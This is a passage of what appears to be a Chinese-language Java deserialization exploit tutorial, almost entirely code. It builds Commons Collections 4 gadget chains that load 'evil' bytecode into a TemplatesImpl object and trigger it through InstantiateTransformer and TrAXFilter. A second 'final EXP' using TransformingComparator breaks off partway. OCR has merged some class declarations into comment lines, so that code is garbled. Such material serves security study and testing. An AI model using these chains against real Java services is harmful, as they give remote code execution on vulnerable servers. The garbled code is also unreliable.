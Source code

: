 ```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections4.functors.ChainedTransformer;  
import org.apache.commons.collections4.functors.InstantiateTransformer;  
  
import javax.xml.transform.Templates;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
  
// 构造 InstantiateTransformer.transform 的 EXPpublic class TransformOriEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //    templates.newTransformer();  
  
 InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},  
 new Object[]{templates});  
  
 instantiateTransformer.transform(TrAXFilter.class);  
 }  
}
```
### 最终 EXP
```java
package org.cc1;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;
public class Exp1 {
// TransformingComparator.compare 的 EXPpublic class ComparatorEXP {
public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
```